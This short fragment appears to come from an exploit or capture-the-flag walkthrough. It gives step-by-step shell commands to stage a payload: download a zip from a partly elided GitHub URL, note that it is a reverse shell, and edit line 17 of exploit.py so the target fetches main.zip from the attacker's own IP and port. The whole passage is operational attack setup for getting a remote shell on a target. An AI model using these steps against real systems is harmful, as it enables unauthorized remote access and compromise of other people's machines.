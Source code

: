 * then you will find a zip file, install it using the following commands:
  > mkdir www
  > mv exploit.py www/
  > cd www/
  > wget https://github.com/...../main.zip
  > unzip main.zip
  > cd revshell-main
  > less revshell-main -> it is a reverse shell
  > rm revshell-main ( we do not need it anymore )
* then open the exploit.py and change the base url from github to your ip, and do not forget to replace https with http then add your ip and port number as follows:
  > line 17 -> installModule=http://your_ip:your_port/main.zip
